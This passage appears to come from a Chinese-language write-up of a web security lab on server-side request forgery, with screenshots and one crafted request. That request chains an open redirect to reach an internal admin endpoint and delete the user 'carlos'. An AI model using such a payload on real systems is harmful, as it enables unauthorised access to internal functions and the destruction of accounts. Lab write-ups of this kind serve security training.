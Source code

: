 [![](assets/1710898772-050c7be0d16ba6dd61e1b66225c7ae53.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312171228-a6198e2c-e050-1.png)

构造一下删除用户的 URL 请求

```plain
/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

[![](assets/1710898772-5034839bdaa0e69eae9b8313ced79e05.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312171301-b9c10536-e050-1.png)
=======